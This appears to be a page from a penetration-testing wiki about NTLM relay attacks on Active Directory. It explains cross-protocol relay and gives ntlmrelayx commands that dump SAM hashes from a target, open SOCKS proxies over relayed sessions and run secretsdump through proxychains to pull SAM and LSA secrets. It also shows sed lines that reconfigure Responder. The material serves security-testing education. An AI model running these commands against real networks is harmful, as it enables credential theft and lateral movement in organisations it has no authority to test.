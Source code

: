 ## Practice

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The LM and NTLM authentication protocols are "application protocol-independent". It means one can relay LM or NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols LM/NTLM relay**. It also means the relays and attacks possible depend on the application protocol the authentication messages are embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\), [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) \(Python\) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a [forced authentication attack](../mitm-and-coerced-authentications/).

{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../mitm-and-coerced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

Below are different use-cases of ntlmrelayx. The last "**+**" tab lists other interesting features that make this tool a must-have when attacking AD domains. It's important to know that many of the use-cases below can be combined.

{% tabs %}
{% tab title="Cred dump" %}
The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="SOCKS" %}
The following command will try to relay the authentication and open [SOCKS proxies](../../../systems-and-services/pivoting/socks-proxy.md).

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use some tools along with proxychains to operate attack through the relayed authenticated session. In this case, secretsdump can be used to dump hashes from the remote target's [SAM and LSA secrets](../credentials/dumping/sam-and-lsa-secrets.md).

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}
